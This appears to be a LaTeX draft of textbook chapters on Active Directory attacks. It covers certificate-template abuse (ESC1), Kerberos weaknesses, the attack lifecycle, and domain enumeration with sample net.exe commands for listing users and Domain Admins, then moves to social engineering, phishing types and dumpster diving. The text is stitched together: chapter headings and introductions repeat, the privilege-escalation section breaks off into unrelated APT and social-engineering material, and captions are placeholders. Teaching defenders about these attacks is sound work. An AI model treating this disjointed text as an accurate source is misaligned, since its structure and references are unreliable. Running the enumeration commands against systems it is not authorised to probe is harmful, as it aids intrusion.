\tipbox{How They Relate
\begin{itemize}
    \item ESC1-ESC16 can be thought of as a specialized subset of techniques that fit inside the MITRE ATT\&CK framework under categories such as \textit{Credential Access, Persistence,} and \textit{Privilege Escalation.}
    \item For example:
        \item ESC1 (abusing SANs for impersonation) could map to MITREs T1552.001-Credentials in Certificates.
        \item ESC8 (NTLM relay to AD CS) could map to T1557-Adversary-in-the-Middle.
    \item But MITRE ATT\&CK does not go into the granular PKI/AD CS detail that ESC1-ESC16 does.
\end{itemize}}



One illustrative example is the ability for a non-privileged user to enable the flag \textbf{\texttt{CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT_ALT_NAME}}, which permits requestors to supply custom Subject Alternative Names (SANs) in certificate requests. When this flag is enabled, an attacker can submit a certificate request with a forged SAN, such as the User Principal Name (UPN) of a Domain Admin account. If the template also supports client authentication, the CA will issue a certificate that effectively impersonates the privileged account, thereby enabling the attacker to escalate their privileges dramatically.
\chapter{Active Directory Attacks-Steps, Types, and Signatures}

\chapter{Active Directory Attacks—Steps, Types, and Signatures}

\section{Introduction}

The Microsoft domain environment is one of the most critical components of modern enterprise networks. The core of this environment is \textbf{Active Directory (AD)}—Microsoft’s implementation of directory services—providing essential functions such as user and identity management, authentication, and centralized policy enforcement. As the most widely adopted directory service in the Windows ecosystem, AD plays a fundamental role in enabling secure access and resource management within organizations.

Active Directory offers several integrated services, including:

\begin{itemize}
    \item \textbf{Domain Services (AD DS):} Enable communication between users and domains, manage centralized data storage, and support login and search operations.
    \item \textbf{Certificate Services:} Issue, manage, and distribute digital certificates for authentication and encryption.
    \item \textbf{Lightweight Directory Services (AD LDS):} Provide support for directory-enabled applications using the Lightweight Directory Access Protocol (LDAP).
    \item \textbf{Federation Services (AD FS):} Facilitate single sign-on (SSO) across multiple web applications and services.
    \item \textbf{Rights Management Services (RMS):} Protect digital content by enforcing usage policies and preventing unauthorized distribution.
    \item \textbf{DNS Services:} Handle domain name resolution for AD-integrated systems.
\end{itemize}

Due to its central role in managing authentication and access to nearly all enterprise resources, Active Directory is vital not only for system administrators and defenders but also for offensive security teams. Its widespread use and elevated privileges make it a prime target for cyber attackers—especially those deploying \textbf{Advanced Persistent Threats (APTs)}.

The United States Air Force (USAF) defines APTs based on three core attributes:

\begin{itemize}
    \item \textbf{Advanced:} Adversaries possess deep knowledge of intrusion tools and tactics and can develop custom exploits.
    \item \textbf{Persistent:} The attacker operates with long-term mission focus and sustained access.
    \item \textbf{Threat:} The actors are organized, well-funded, and highly motivated—often linked to nation-state operations.
\end{itemize}

\renewcommand{\arraystretch}{1.4}
\begin{longtable}{|p{4cm}|p{11cm}|}
\caption{Advanced Persistent Threats (APT): Characteristics and Detection Measures} \\
\hline
\rowcolor{gray!20} \textbf{Attribute} & \textbf{Description} \\
\hline
\endfirsthead

\multicolumn{2}{c}{{\bfseries Table continued}} \\
\hline
\rowcolor{gray!20} \textbf{Attribute} & \textbf{Description} \\
\hline
\endhead

\hline \multicolumn{2}{r}{{Continued on next page}} \\
\endfoot

\hline
\endlastfoot

\textbf{Nomenclature Meaning} & \textbf{Advanced:} The adversary has deep knowledge of intrusion tools and can develop custom exploits. \newline
\textbf{Persistent:} The attacker maintains long-term access and returns repeatedly. \newline
\textbf{Threat:} The attacker is organized, well-funded, and strategic. \\
\hline

\textbf{Common Signs} & Nation-state groups (e.g., APT28, Deep Panda), extended access, sophisticated techniques, low detection risk, high-value targets. \\
\hline

\textbf{Lifecycle} & Reconnaissance → Initial Compromise → Establish Foothold → Privilege Escalation → Lateral Movement → Maintain Access → Data Exfiltration. \\
\hline

\textbf{Techniques} & Social engineering, spear phishing, watering hole attacks, credential theft, drive-by downloads, and custom malware. \\
\hline

\textbf{Target Sectors} & Government, IT, finance, energy, healthcare, logistics, manufacturing. \\
\hline

\textbf{Comparison with Malware} & APTs are strategic and long-term; traditional malware is opportunistic. APTs aim for espionage; malware often aims for profit. \\
\hline

\textbf{Defense Measures} & Email filtering, EDR, MFA, access controls, user and network monitoring, behavioral analytics. \\
\hline
\end{longtable}

\textbf{Note:} The above table helps contextualize APTs by comparing them with traditional malware and highlighting detection strategies.

\bigskip

\textbf{Objective of This Chapter:}
\begin{itemize}
    \item Describe the typical AD attack lifecycle and mitigation strategies.
    \item Present observable attack signatures for Kerberoasting and Pass-the-Hash attacks.
    \item Analyze how Kerberos protocol is exploited in privilege escalation.
    \item Explore how attackers use social engineering and human behavioral weaknesses.
\end{itemize}

\section{Background: Kerberos and AD Security}

This section introduces the Kerberos protocol, focusing on its authentication workflow, concepts, and security weaknesses in AD environments.

\subsection{Kerberos Authentication Workflow}

Kerberos is the default authentication protocol in Active Directory. It facilitates mutual authentication between clients and services using a trusted third-party—the \textit{Key Distribution Center (KDC)}.

The KDC operates on Domain Controllers and consists of:
\begin{itemize}
    \item \textbf{Authentication Server (AS):} Verifies identity and issues a Ticket Granting Ticket (TGT).
    \item \textbf{Ticket Granting Service (TGS):} Issues service-specific tickets after verifying a valid TGT.
\end{itemize}

When a user logs in, this process occurs:
\begin{enumerate}
    \item User sends encrypted timestamp to AS.
    \item AS validates it and returns:
        \begin{itemize}
            \item Session key encrypted with user password hash.
            \item TGT encrypted with the krbtgt account's key.
        \end{itemize}
    \item User sends TGT to TGS with an authenticator.
    \item TGS responds with:
        \begin{itemize}
            \item Service ticket encrypted with the service's key.
            \item Session key for use between client and target server.
        \end{itemize}
    \item Client sends service ticket to target server, which authenticates the user.
\end{enumerate}

This provides mutual authentication—but if the krbtgt account is compromised, attackers can forge tickets ("Golden Ticket" attack).

\subsection{Kerberos Security Issues}

Two major risks exist:
\begin{enumerate}
    \item The \texttt{krbtgt} password is rarely changed and never expires.
    \item If stolen, attackers can forge tickets that bypass most detection methods.
\end{enumerate}

\textbf{\chapter{Active Directory Attacks—Steps, Types, and Signatures}

\section{Introduction}

The Microsoft domain environment is one of the most critical components of modern enterprise networks. The core of this environment is \textbf{Active Directory (AD)}—Microsoft’s implementation of directory services—providing essential functions such as user and identity management, authentication, and centralized policy enforcement. As the most widely adopted directory service in the Windows ecosystem, AD plays a fundamental role in enabling secure access and resource management within organizations.

Active Directory offers several integrated services, including:

\begin{itemize}
    \item \textbf{Domain Services (AD DS):} Manage centralized data storage, support login and search operations.
    \item \textbf{Certificate Services:} Issue and manage digital certificates for authentication/encryption.
    \item \textbf{Lightweight Directory Services (AD LDS):} Supports directory-enabled applications using LDAP.
    \item \textbf{Federation Services (AD FS):} Enables single sign-on (SSO) across web applications/services.
    \item \textbf{Rights Management Services (RMS):} Enforce content usage policies and protect digital documents.
    \item \textbf{DNS Services:} Provide name resolution for AD-integrated systems.
\end{itemize}

Due to its central role in authentication and access, AD is critical not only for defenders but also for attackers. Its privileges and widespread use make it a prime target—especially by \textbf{Advanced Persistent Threats (APTs)}.

The USAF defines APTs with three core traits:
\begin{itemize}
    \item \textbf{Advanced:} Skilled adversaries capable of custom exploit development.
    \item \textbf{Persistent:} Long-term, mission-focused campaigns with sustained access.
    \item \textbf{Threat:} Organized, well-funded, highly motivated—often state-sponsored.
\end{itemize}

\vspace{1em}
\renewcommand{\arraystretch}{1.4}
\begin{longtable}{|p{4cm}|p{11cm}|}
\caption{APT Characteristics and Detection Measures} \\
\hline
\rowcolor{gray!20} \textbf{Attribute} & \textbf{Main Features and Description} \\
\hline
\endfirsthead

\hline \multicolumn{2}{r}{{Continued on next page}} \\
\endfoot

\hline
\endlastfoot

\textbf{Nomenclature Meaning} &
\textbf{Advanced:} Adversaries have deep technical expertise and can craft custom malware. \newline
\textbf{Persistent:} Long-term operations with sustained infrastructure. \newline
\textbf{Threat:} Well-organized, often linked to nation-states. \\
\hline

\textbf{Signs} &
Actors include APT28, OilRig, Deep Panda. Goals involve espionage and disruption. Use rootkits, DNS tunneling, rogue Wi-Fi. Often stealthy and cautious. \\
\hline

\textbf{Lifecycle} &
\textbf{1. Initial Reconnaissance:} Identify systems and users. \newline
\textbf{2. Initial Compromise:} Deploy malware, gain initial access. \newline
\textbf{3. Establish Foothold:} Maintain persistent access. \newline
\textbf{4. Escalate Privileges:} Use tools like mimikatz or token theft. \newline
\textbf{5. Internal Recon:} Map network, locate assets. \newline
\textbf{6. Lateral Movement:} Jump between hosts. \newline
\textbf{7. Maintain Presence:} Create persistence mechanisms. \newline
\textbf{8. Complete Mission:} Exfiltrate data, disrupt operations. \\
\hline

\textbf{Techniques} &
Social engineering, spear-phishing, watering hole attacks, drive-by downloads. Often tailored to the target. \\
\hline

\textbf{Targets} &
\textbf{Government:} Surveillance, disruption. \newline
\textbf{Finance:} Steal data, money. \newline
\textbf{Healthcare:} Leak medical records. \newline
\textbf{Energy/Utilities:} Sabotage. \newline
\textbf{IT Sector:} IP theft. \newline
\textbf{Transport:} Disruption. \newline
\textbf{Manufacturing:} Industrial espionage. \\
\hline

\textbf{Malware Comparison} &
\textbf{APTs:} Long-term, stealthy, strategic. \newline
\textbf{Typical Malware:} Broad, opportunistic, often short-lived. \newline
\textbf{APTs:} May use malware as just one part of a broader strategy. \\
\hline

\textbf{Detection and Defense} &
Email filtering, endpoint detection and response (EDR), strict access controls, traffic monitoring, user behavior analytics. \\
\hline
\end{longtable}

Most cyberattacks in enterprise environments begin by compromising a single workstation. From there, attackers escalate their access, typically aiming to compromise high-privileged accounts-especially domain administrators-who possess unrestricted access to nearly all resources within the organization. To maintain presence, attackers often deploy various persistence techniques, ensuring continued access at an elevated privilege level for as long as possible.

As businesses increasingly adopt digital platforms and services, securing organizational infrastructure against cyber threats becomes critical. According to a report by Kaspersky, the average cost of a data breach is approximately \$1.41 million for companies and \$108,000 for small and medium companies. These statistics underscore the growing concern around Active Directory (AD) security and have driven significant research into attach techniques and defensive mechanisms related to AD environments.

This chapter focuses on \textit{privilege escalation techniques} used in Active Directory attacks. We also discuss a variety of mitigation strategies that aim to detect, minimize, and prevent such attacks. Additionally, two other attacks of interest that we will be covering include the Pass-the-Hash (PtH) and Kerberoasting attacks.

The key objectives of this chapter are as follows.
\begin{itemize}
    \item Summarize the main characterizing attributes of Advanced Persistent Threats (APTs), including their definitions, signs, lifecycle stages, techniques, target types, comparison with malware, and associated detection and protection strategies.
    \item Describe the typical attack lifecycle within Active Directory environments and describe the methods used at each stage.
    \item Present the attack signatures for both Pass-the-Hash (PtH) and Kerberoasting attacks.
    \item Analyze how the Kerberos authentication protocol is exploited in different stages of an AD attack lifecycle.
\end{itemize}

\subsection{Chapter Organization}
\begin{itemize}
    \item Section 2 provides background on the Kerberos authentication mechanism, a core component of Active Directory, and a common target in AD-based attacks.
    \item Section 3 presents the attack lifecycle that is typically observed in AD environments.
    \item Section 4 reviews the existing work related to Active Directory defense and mitigation strategies.
    \item Section 5 details the finding on privilege-escalation attacks in AD.
    \item Section 6 concludes the chapter and describes best practices for attack prevention.
\end{itemize}

\section{Background}
This section provides essential background information on the Kerberos authentication protocol, focusing on its operational workflow and associated security challenges. Kerberos plays a central role in the security of Active Directory (AD) environments, and a deep understanding of its mechanisms is fundamental to the analysis of AD-related attacks.

\subsubsection{Kerberos Authentication Workflow}
Kerberos is the default authentication protocol used in Active Directory environments. Facilitates mutual authentication between clients and services, ensuring secure access to network resources. Entities that participate in authentication and resource access using Kerberos are referred to as \textit{principals.}

The core of the protocol is the \textit{Key Distribution Center (KDC),}, which handles both authentication and ticket issuance. The KDC operates on any writable Domain Controller (DC) and consists of two main components:
1. Authentication Server (AS): Verifies the identity of the client and issues a \textit{Ticket Granting Ticket (TGT).}
2. Ticket Granting Service (TGS): Issues service-specific tickets to authenticated users holding a valid TGT.

Understanding the Kerberos workflow is critical to analyzing attacks on Active Directory, as many attack vectors-including Pass-the-Hash (PtH) and Kerberoasting-leverage vulnerabilities or design aspects of this protocol.

When a user or service requests access to a protected resource within an AD environment, the Kerberos authentication process follows a structured sequence of steps. This process is summarized in Figure 1.

\begin{figure}
    \centering
    \includegraphics[width=1\linewidth]{tgtflow.png}
    \caption{\textbf{FIGURE 1. }Kerberos Authentication Workflow}
    \label{fig:placeholder}
\end{figure}

\subsubsection{Kerberos Authentication Concepts}
Kerberos uses \textit{symmetric key cryptography} and a trusted third-party-the \textit{Key Distribution Center (KDC)}-to authenticate clients and grant access to services within an Active Directory environment. The process involves multiple exchanges between the client and \textit{ authentication server (AS),} the \textit{ ticket grant service (TGS),} and the target service. The complete workflow is described as follows:

\textbf{1. Password Hashing:}
\begin{itemize}
    \item The client generates a hash of the user password, which serves as a \textit{secret key} for securing communications within the KDC.
\end{itemize}
\textbf{2. Authentication Request to AS:}
\begin{itemize}
    \item The client sends an encrypted timestamp, secured with the hashed password, to the AS. The AS then verifies the client's identity by attempting to decrypt the timestamp using the corresponding password hash stored in the Active Directory database, \texttt{ntds.dit}.
    \begin{itemize}
        \item If decryption is successful, the AS confirms that the client possesses the correct password and allows the user to move forward.
\end{itemize}
    \end{itemize}
\textbf{3. AS Reply (Initial Credentials:}
    The AS responds with two main components: \textbf{(a) A session key,} encrypted with the client password hash, to be used for subsequent communications with the KDC.
            \textbf{(b) A Ticket Granting Ticket (TGT),} which contains the user's identity and metadata. This TGT is encrypted using the krbtgt account's secret key, known only to the TGS. The client stores this TGT and presents it when requesting access to specific services.
\textbf{4. Service Request to TGS:}
To access a specific service, the client sends a request to TGS. This request includes:
the TGT obtained from the AS.
            (a) An \textit{authenticator}, encrypted with the session key, proving the client's identity and the request's validity.
\textbf{5. TGS Response (Service Ticket):}
After successful validation of the TGT and the authenticator, the TGS responds with: \textbf{(a) A service ticket,} encrypted with the secret key of the target service. This ticket includes the user's group membership, a session key for client-server communications, and a timestamp.
            \textbf{(b) The session key,} encrypted with the client's session key (received from the AS), which the client will use to securely communicate with the target service.
\textbf{6. Service Request to the Target Server:}
    Finally, the client sends a request to the target server, including the service ticket obtained from the TGS.
            The server decrypts the ticket using its own key (shared with the KDC).
            If successful, the server confirms that the request is legitimate and that the client has been authenticated by the KDC.

This workflow ensures mutual authentication and secure access control within the AD environment; however, certain aspects of this process-particularly the handling of password hashes and tickets-are susceptible to exploitation, as demonstrated in various AD attacks such as Pass-the-Hash and Kerberoasting.

\subsection{Kerberos Security Issues}
One of the most defining characteristics of the Kerberos protocol is its stateless nature. In this context, "stateless" means that the Key Distribution Center (KDC)-comprising the Authentication Server (AS) and the Ticket Granting Service (TGS)-does not maintain session information for individual clients. Instead, all necessary information to process future service requests is encapsulated within the Ticket Granting Ticket (TGT) itself.

The TGT is encrypted using the secret key of the \texttt{krbtgt} account, which is known only to the components of the KDC-the AS (which issues the TGT) and the TGS (which consumes it to issue service tickets). Because of this encryption model, two important security implications arise:

1. The \texttt{krbtgt} account password is one of the most critical secrets in the Active Directory environment.
2. All information contained within the TGT is inherently trusted by the TGS, since it is assumed that only the AS (a trusted component) could have issued it using the \texttt{krbtgt} key.

A notable security concern is that the password to the \texttt{krbtgt} account is rarely changed. In many environments, never expires and remains static for extended periods. This poses a significant risk: If an attacker manages to compromise the krbtgt password (e.g., through a Golden Ticket attack), they can forge valid TGTs and maintain long-term, stealthy access to the environment. The system remains vulnerable until the \texttt{krbtgt} password is manually rotated-a nontrivial process in most enterprise domains.

\section{Active Directory Attack Phases}
Attacks targeting Active Directory (AD) environments typically follow a structured and sequential lifecycle, progressing through multiple stages. Most reach efforts in this domain focus on post-exploitation scenarios, assuming that an attacker has already established an initial toehold in the environment. This chapter adopts the same perspective, analyzing attack techniques that follow the initial compromise.

Once access to a single user account or machine is gained, the attacker begins by enumerating the domain to collect critical information. This may include domain users, group memberships, trust relationships, and security policies-information necessary for lateral movement and privilege escalation.

The next phase involves privilege hunting, where the adversary actively seeks accounts with elevated privileges, such as local administrators or domain administrators. Upon successful escalating privileges, the attacker shifts focus to persistence, employing techniques to maintain long-term access to the environment. These techniques ensure the attacker can continue operations without needing to re-exploit initial vulnerabilities.

Ultimately, the adversary aims to achieve specific objectives such as data exfiltration, denial of service, sabotage, or ongoing environmental surveillance.

The major phases of a typical AD attack lifecycle are summarized in Figure 2.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{attacksteps.png}
    \caption{\textbf{FIGURE 2. }Active Directory attack steps}
    \label{fig:placeholder}
\end{figure}

\subsection{Domain Enumeration}
After obtaining an initial toehold within an Active Directory (AD) environment, an attacker's primary objective is typically to escalate privileges-ideally by compromising highly privileged accounts such as Domain Admins or Enterprise Admins. To achieve this, the attacker must first perform a domain enumeration to identify weaknesses or misconfigurations that can be exploited.

In particular, many domain reconnaissance operations can be executed using a standard user account without the need for elevated privileges. Attackers exploit this to gather extensive information about the AD infrastructure, user privileges, group memberships, access control configurations, and active sessions. In this phase a wide range of tools are used, both native to Windows and developed by the security community. The following provides an overview of four commonly used enumeration tools.

\textbf{1. \texttt{net.exe}}
\texttt{net.exe} is a built-in Windows utility used to manage users, groups, network shares, and more. Attackers use it to:
Enumerate all domain users and groups
Identify privileged groups such as Domain Admins
Extract group membership details for specific users

\textbf{2. Active Directory PowerShell Module}
The Active Directory module for PowerShell provides a set of cmdlets that allow administrators to query and manage AD objects. Although this module typically requires Remote Server Administration Tools (RSAT) to be installed, attackers can find ways to import it onto any compromised workstation.

Capabilities include:

Querying domain objects and relationships
Retrieving information about users, computers, groups, and trust relationships

\textbf{3. PowerView}
PowerView is a PowerShell-based tool that is part of the PowerSploit framework. It is designed specifically for domain enumeration and can replicate much of the functionality provided by the AD module.

PowerView extends standard capabilities by enabling:

Identification of where specific users are logged in
Enumeration of group memberships, ACLs, and session information
Discovery of privilege escalation pathways and lateral movement opportunities

\textbf{4. BloodHound}
BloodHound is a graph-based enumeration tool widely used by both red and blue teams to analyze complex AD environments. It collects and visualizes data about user and group relationships, permissions, and attack pathways within a domain.

Key features include:

Mapping of privilege escalation chains
Visualization of effective permissions and attack pathways 
Identification of high-value targets and vulnerable access relationships

The output from domain reconnaissance can be extensive, depending on the time and effort invested in this phase. Common data collected by attackers includes:

Current domain and forest information
List of privileged groups (e.g., Domain Admins, Enterprise Admins)
Noteworthy Access Control List (ACL) entries
Domain structure and Group Policy Objects (GPOs)
Shared resources and sensitive files
Machines where targeted users have active sessions

This comprehensive mapping of the AD environment sets the foundation for subsequent stages such as privilege escalation, lateral movement, and persistence.

\section{Attack Demonstration Using Common Active Directory Enumeration Tools}
The below tools demonstrate how attackers use common Active Directory enumeration tools to support actions such as:

Initial Access / Reconnaissance
Privilege Escalation
Lateral Movement

Below is a breakdown of each tool with sample commands categorized by attacker goals. These examples are for educational and defensive purposes only, as they simulate attacker behavior to help blue teams and defenders detect and mitigate these activities.

\subsection{1. Initial Access / Recon}
\subsubsection{\texttt{net.exe}-Native Windows Tool}

\mybox{cmd}{gray!20}{gray!40}{\texttt{net user /domain}}
Lists all domain users. Can reveal naming conventions, target users.

\mybox{cmd}{gray!20}{gray!40}{\texttt{net group "Domain Admins" /domain}}
Enumerates members of the \texttt{Domain Admins} group.

\mybox{cmd}{gray!20}{gray!40}{\texttt{net view /domain}}
Lists available domains in the environment.

\mybox{cmd}{gray!20}{gray!40}{\texttt{net view \textbackslash\textbackslash<hostname>}}
Lists shared resources on a specific host.

\subsection{2. Privilege Escalation}
\mybox{cmd}{gray!20}{gray!40}{\texttt{net localgroup administrators \textbackslash\textbackslash<target-host>}}
Checks if the current user is in the local \texttt{Administrators} group on a remote host.
\begin{itemize}
    \item \textbf{Advanced:} Attackers have a deep understanding of offensive tools and techniques and can develop custom exploits.
    \item \textbf{Persistent:} The adversary maintains long-term access to systems, executing planned missions, and targeting specific objectives.
    \item \textbf{Threat:} The actor is organized, well funded and highly motivated to compromise strategic assets.
\end{itemize}
Table 1 provides a comprehensive overview of the characteristics of APT, including the meaning behind the nomenclature [5], common indicators or signatures [6], life cycle phases [7], associated techniques [8], comparison of targets and malware types [5][8], and recommended detection and mitigation strategies.

 
In recent years, several high-profile breaches have demonstrated how attackers exploit the human element in cybersecurity. Despite advances in technical safeguards, people remain a critical and vulnerable link in the security chain. Figure 1 illustrates common tools and the general flow of cyberattacks based on social engineering.

\begin{figure}
    \centering
    \includegraphics[width=1\linewidth]{soceng.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}
In the past two years, the most common mediums for conducting social engineering (SE) attacks have been through the use of social media platforms and \textit{smishing}(SMS-based phishing) campaigns. The majority of SE attacks depend on direct interactions between the attacker and the victim. In many cases, these interactions can be deceptively simple-for example, a phone call in which an attacker impersonates an employee to extract sensitive information such as passwords or PIN codes. The scale of this threat is evident in recent statistics: in 2024 alone, Americans lost an estimated USD 29.8 billion to phone scame alone.

Table 1 provides an overview of several prominent social engineering-based breaches from recent years. These incidents highlight the dual role of \textit{human error} and \textit{delivberate attacker manipulation} in enabling successful compromise. SE attacks often succeed by persuading or coercing a victim into making an error they would not otherwise commit, demonstrating that technical defenses alone are insufficient.

Beyond direct financial loss, data breaches resulting from SE attacks erode customer trust, loyalty, and damage organizational brand and reputation. Despite the high impact and relative ease of execution, countermeasures for SE-based attacks often overlook the critical link between \textit{human behavior} and \textit{social manipulation techniques.} Few studies directly address this intersection. This chapter seeks to extend that body of knowledge by analyzing human behavioral vulnerabilities and how they are exploited in SE-based attacks.

The remaining parts of this chapter is structured as follows: Section 2 reviews well-known social engineering indicents and their methods of execution. Section 3 discusses common human emotions and errors exploited in SE attacks, along with current countermeasures and the role of Machine Learning (ML). Section 4 highlights the limitations of existing approaches and summarizes the finding of this study. Finally, Section  5 concludes this chapter.

\begin{table}
    \centering
    \begin{tabular}{lllll}
         Company&  Date&  Details / Damage& Breach Method / Tool\\
         MGM Resorts Las Vegas International&  September 2023&  Attackers used vishing (phone call) to trick help desk personnel into resetting an account. Led to ransomware deployment, disrupting hotel operations, slot machines, and reservations. Estimated damages exceeded US 100 million& Vishing (help desk impersonation), phishing, ransomware (ALPHV / BlackCat)\\
         Caesars Entertainment, Las Vegas, NV&  September 2023&  Similar social engineering campaign as MGM; attackers stole data including driver's license and SSNs of loyalty program members. Caesars reportedly paid the US 15 million ransom& Phishing + social engineering of hotel IT staff\\
         Okta (Identity Provider)&  October 2023&  Attackers gained access to Okta's customer support case system by tricking employees. Breach impacted customers like Cloudflare and BeyondTrust& Phishing + Credential Theft\\
       Coinbase& February 2023& Employees targeted with SMS phishing (Smishing) that led to credential harvesting. Attackers stole login details and gained limited system access. Customer funds were not stolen& Smishing + Credential Phishing\\
       Reddit& February 2023& Employee fell for a targeted phishing email mimicking internal HR portal. Attackers stole credentials and internal documentation& Spearphishing Email \\
       Microsoft (Storm-0558)& Mid-2023& Chinese threat actors spear-phished and stole a signing key, allowing them to forge tokens to access U.S. government email accounts (including State Dept.)& Spearphishing + Forgery\\
       Western Digital& April 2023& Attackers gained access to internal systems via social engineering. Customer data and cloud services disrupted& Phishing / SE + Ransomware\\
       Lufthansa Group (Airline)& 2024 (reported)& Smishing campaigns targeted frequent flier program members, tricking them into revealing credentials. Accounts hijacked for resale& Smishing\\
       Ticketmaster (via Snowflake Compromise)& 2024& Attackers used stolen credentials from social engineering / credential stuffing against Snowflake accounts, exfiltrating 560M customer records& Credential Phishing + Credential Reuse\\
       UnitedHealth Group (Change Healthcare)& February 2024& Attackers from ALPHV / BlackCat gained access via stolen credentials, likely from phishing, leading to massive ransomware attacks disrupting healthcare services nationwide& Phishing + Credential Theft\\
       AT&T Data Breach& 2024& SIM-swapping and phishing techniques used to compromise employee access. Millions of customer records were exposed& Phishing + SIM-Swapping\\
       Cisco Talos& 2025 (ongoing)& Multiple campaigns using MFA fatigue and phishing to target corporate VPN users across industries& MFA Fatigue attack + Phishing
    \end{tabular}
    \caption{Caption}
    \label{tab:placeholder}
\end{table}

\section{Social Engineering Attacks}
Social engineering (SE) can be defined as the exploitation of human psychology to achieve malicious objectives, rather than relying on purely technical hacking methods. As society's dependence on technology grows, SE has become an increasingly important tool for cybercriminals. At the same time, technical countermeasures against cyberattacks-such as intrusion detection systems, firewalls, and endpoint protection-have advanced significantly. These defenses make purely technical intrusions more difficult to execute, thereby pushing attackers toward exploiting the human element as a more reliable entry point.

SE-based attacks can assist adversaries in multiple ways, including infiltrating organizational networks, bypassing firewalls, installing malware, or creating backdoors for persistent access. Unlike technical vulnerabilities, SE attacks target human decision-making processes and behaviors. For example, attackers may induce victims to make errors by exploiting cognitive biases or pressuring them into hasty actions. Similarly, traits such as curiosity, fear, or trust can be manipulated to extract sensitive information and foretelling details. This section examines several of the most common cyberattacks enabled by social engineering.

\subsection{Phishing Attacks}
Phishing is one of the most prevalent and successful forms of SE-based cyberattacks. Every day, millions of fraudulent emails are distributed by attackers or spam bots, with many intercepted by security solutions but a significant portion still reaching users. A phishing campaign typically begins with an email crafted to appear as though it originates from a legitimate party or source. The goal is to lure the victim into taking and completing an action that compromises the security of not only themselves, but for others as well.

The lure varies depending on the target audience: a corporate employee may receive a fake travel expense report requiring a login, while another user may be promised a prize for clicking a malicious link. Regardless of the delivery method, the ultimate aim of phishing is to steal sensitive information, such as login credentials, financial details, or \textit{Personally Identifiable Information (PII).}

Figure 2 illustrates the general process of a basic phishing attack, including two of the most common methods. Table 2 further categorizes different phishing techniques and highlights their key characteristics.

\begin{figure}
    \centering
    \includegraphics[width=1\linewidth]{phish.png}
    \caption{\textbf{FIGURE 2. }Common phishing attack workflow}
    \label{fig:placeholder}
\end{figure}
\subsubsection{Table 2. Common Types of Phishing Attacks}


\begin{table}
    \centering
    \begin{tabular}{cc}
         Phishing Attack& Description\\
         Spear& A spearphishing attack is a highly targeted, personalized scam designed to trick specific individuals or organizations into revealing sensitive information. Unlike a generic phishing attempt that casts a wide net, Spearphishers meticulously research their targets to craft convincing emails hat appear to come from a trusted source, such as a colleague, vendor, or executive.\\
         Whaling& A whaling attack is a highly targeted form of phishing that specifically goes after high-level executives and key decision-makers within an organization. Like hunting a "big fish," attackers focus on these "whales" because of their authority and access to valuable data and significant funds. The goal is to manipulate them into revealing sensitive information or transferring large sums of money to fraudulent accounts.\\
         Vishing& Vishing is a type of cybercrime in which attackers use deceptive phone calls and voicemail messages to manipulate individuals into disclosing sensitive personal information, such as bank account details, credit card numbers, Social Security numbers, or login credentials. It is essentially the "voice" version of phishing, where scammers typically impersonate representatives from trusted organizations, such as banks, government agencies (such as the IRS or Social Security Administration), tech support, or even family members.\\
         Smishing& Smishing is a form of cybercrime that uses deceptive text messages to trick individuals into giving up sensitive information, downloading malware, or sending money. The name is a blend of "SMS" (Short Message Service) and "phishing." Smishing attacks are effective because people tend to be less skeptical of text messages compared to emails and often respond to them with a great sense of urgency.\\
         Impersonation& An impersonation attack is a form of social engineering in which a cybercriminal pretends to be a known or trusted person or entity to deceive a victim. The attacker's goal is to manipulate the target into taking actions that benefit the criminal, such as transferring funds, sharing sensitive information, or revealing login credentials. Unlike malware-based attacks that exploit software vulnerabilities, impersonation attacks exploit human psychology and a person's natural tendency to trust. They can occur through various methods and means, both digital and physical.\\
         Business Email Compromise (BEC)& Business Email Compromise (BEC) is a sophisticated type of cybercrime where attackers use email to impersonate a trusted individual or organization, such as a CEO, vendor, or legal counsel, to trick employees into taking actions that benefit the attacker, such as wiring funds or sharing sensitive information.\\
         Clone Phishing& Clone phishing is a cyberattack where an attacker creates a nearly identical copy of a legitimate, previously-sent email to deceive recipients. By perfectly replicating the branding, language, and sender details, the attacker replaces original links or attachments with malicious ones. This tactic exploits a victim's trust in a familiar source, making the fraudulent email very difficult to detect.\\
         Social Media Phishing& Social media phishing is a cyberattack that uses social networking platforms to trick users into revealing sensitive information, such as passwords, credit card numbers, and other personal data. Threat actors create fake profiles, send malicious links, or hack legitimate accounts to deceive victims and exploit their trust in familiar platforms.\\
         Distributed Spam Distraction (DSD)& Distributed Spam Distraction (DSD) is a cyberattack in which a user's inbox is flooded with thousands of non-malicious emails to distract them from more serious criminal activities happening in the background. This deluge of spam, often from thousands of different senders, serves as a smokescreen to hide alerts about fraudulent purchases or account changes. The attack relies on the fact that a user's attention is limited. By overwhelming the inbox with junk email, attackers hope the victim will miss the few critical, legitimate-seeming emails from banks or other financial institutions reporting unauthorized activity.\\
    \end{tabular}
    \caption{Commonly social engineering attacks}
    \label{tab:placeholder}
\end{table}
\subsection{Dumpster Diving}
It is only appropriate to start out this section by reiterating the adage:
\begin{quote}
    One Man's Trash Is Another Man's Treasure
\end{quote}
Dumpster diving is essentially looking for treasure in someone else's trash. In the world of cybersecurity, dumpster diving is a technique used to retrieve information that could be used to carry out an attack or gain access to a computer network from carelessly disposed items.

Dumpster diving is a low-tech yet effective method used to gather information about a target by searching through discarded materials such as trash or recycling bins. Attackers look for documents, receipts, notes, or other items that may contain sensitive data-including passwords, payslips, bills, credit card details, PII, or internal organizational information such as intellectual property and proprietary information, or trade secrets.

Furthermore, dumpster diving is not limited to searching through the trash for obvious treasures, such as access codes or passwords written down on forgotten sticky notes. Seemingly innocent and innocuous information, such as an old contact list, calendar, or organizational chart, can be used to assist an attacker using social engineering tehcniques to gain access to the network. This method is also one of the most common tactics used in identity theft.

To prevent dumpster divers from learning anything valuable from trash, it is recommended to establish a secure disposal policy where all paper-including print-outs- are shredded in a cross-cut shredder before being recycled, all storage media is degaussed and all staff educated about the danger of untracked trash.

Disposed computer hardware, including printers which contain internal hard drives, can be a gold mine for attackers. Information can be easily recovered from storage media, including drives that have been imporoperly formatted or erased. This includes stored passwords and trusted certificates. Even without the storage media, the equipment may include \textit{Trusted Platform Module (TPM)} data or other hardware IDs that are trusted by an organization. An attacker may also be able to use the hardware to identify the equipment manufacturer to craft potential exploits if that hardware has any outstanding and undiscovered vulnerabilities.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{dditems.png}
    \caption{\textbf{FIGURE 3. }Discarded items attackers can leverage in social engineering attacks via dumpster diving invasions}
    \label{fig:placeholder}
\end{figure}

